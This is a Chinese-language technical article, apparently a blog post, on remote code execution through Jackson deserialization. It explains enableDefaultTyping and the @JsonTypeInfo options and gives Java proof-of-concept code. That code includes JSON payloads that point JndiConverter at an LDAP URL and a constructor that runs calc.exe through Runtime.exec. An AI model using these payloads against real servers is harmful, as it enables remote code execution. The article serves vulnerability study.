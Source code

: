 # Jackson漏洞原理与检测、利用方式研究
# Jackson简介
前面分析了两个关于 fastjson 的漏洞，这篇文章再提一嘴 Jackson。
实际上这两个JSON处理类库的多数漏洞是可以通用的，原理也就是通过反射实例化对象，在调用构造函数或调用get/set方法时触发敏感操作。Jackson框架被发现存在一个反序列化代码执行漏洞。该漏洞存在于Jackson框架下的enableDefaultTyping方法，通过该漏洞，攻击者可以远程在服务器主机上越权执行任意代码，从而取得该网站服务器的控制权。
满足下面三个条件是可以导致反序列化漏洞：
* 调用了ObjectMapper.enableDefaultTyping()函数，参数为四个类型；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解；
## enableDefaultTyping触发反序列化
```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue(jsonString, A.class);
```
DefaultTyping的几种模式：
```java
/**
    * This value means that only properties that have
    * {@link java.lang.Object} as declared type (including
    * generic types without explicit type) will use default
    * typing.
*/
JAVA_LANG_OBJECT: 只有Object类型属性，才能反序列化为任何实例。
/**
    * Value that means that default typing will be used for
    * properties with declared type of {@link java.lang.Object}
    * or an abstract type (abstract class or interface).
    * Note that this does <b>not</b> include array types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
OBJECT_AND_NON_CONCRETE: 包含上述 JAVA_LANG_OBJECT 的特性，并且对于接口类型定义的属性，可以反序列化为任意实现类实例，不指定的时候默认使用该类型。
/**
    * Value that means that default typing will be used for
    * all types covered by {@link #OBJECT_AND_NON_CONCRETE}
    * plus all array types for them.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_CONCRETE_AND_ARRAYS: 包含上述 JAVA_LANG_OBJECT 和 OBJECT_AND_NON_CONCRETE 的特性，增加了数组支持
/**
    * Value that means that default typing will be used for
    * all non-final types, with exception of small number of
    * "natural" types (String, Boolean, Integer, Double), which
    * can be correctly inferred from JSON; as well as for
    * all arrays of non-final types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_FINAL: 包含上述所有特性，除了final定义的属性不能反序列化，其他都可以
```
## JsonTypeInfo触发反序列化
在将多态类型进行JSON序列化后，Jackson无法在反序列化期间找出正确的类型，Jackson里使用@JsonTypeInfo注解处理多态类型的序列化和反序列化。此注解用于序列化有关多态实例的实际类的信息，以便Jackson可以知道要反序列化的子类型。有两种方式添加注解：

（1）@JsonTypeInfo注解加到父类定义上
```java
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
public class BaseClass {
}
```
（2）@JsonTypeInfo注解加到包含父类的成员变量上面
```java
//@JsonTypeInfo注解不仅可以加在父类的定义上面，也可以加到包含父类的成员变量上面
public class Test {
  @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
  private List<BaseClass> bean;
}
```
|  配置   | 说明  |
|  ----  | ----  |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)  | 字如其名，和没设置一样. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)  | Json多了@class字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS) | Json多了@c字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.MINIMAL_CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NAME) | Json多了@type字段，用于标明相关属性的类名(无包) |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM) | 用户自定义，需要手写解析器|
||

### **JsonTypeInfo.Id.CLASS利用**
```java
class A2 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@class\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A2.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@class\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A2.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **JsonTypeInfo.Id.MINIMAL_CLASS利用**
```java
class A3 {
    private int i = 1;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@c\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A3.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@c\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A3.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **`JsonTypeInfo.Id.NAME`**
```java
 class A4 {
    private int i = 1;
    @JsonTypeInfo(use = Id.NAME)
    private Object object;
    @JsonTypeInfo(use = Id.NAME)
    private AA subaa;
    @JsonTypeInfo(use = Id.NAME)
    private InterfaceA aa;
 }
//反序列化失败，并不能反序列化任意类
json = "{\"i\":1,\"object\":{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"},\"aa\":null}";
a = mapper.readValue(json, A4.class);
//反序列化失败，并不能反序列化继承InterfaceA的子类AA
json = "{\"i\":1,\"aa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
//反序列化成功，AA
json = "{\"i\":1,\"subaa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
```
### **JsonTypeInfo.Id.CUSTOM**
```java
class A5 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CUSTOM)
    private Object object;
    private InterfaceA aa;
}
// 直接反序列化失败，需要自定义转换器
String json = "{\"i\":1,\"object\":{\"@type\":\"JsonTypeInfoTest$B\",\"i\":2},\"aa\":null}";
mapper.readValue(json,A5.class);
```
# 参考
https://blog.csdn.net/qq_34101364/article/details/111996656

http://pirogue.org/2018/01/12/jackson-databind-rce/

https://b1ue.cn/archives/189.html

http://blog.nsfocus.net/jackson-framework-java-vulnerability-analysis/

https://xz.aliyun.com/t/8012

https://xz.aliyun.com/t/9331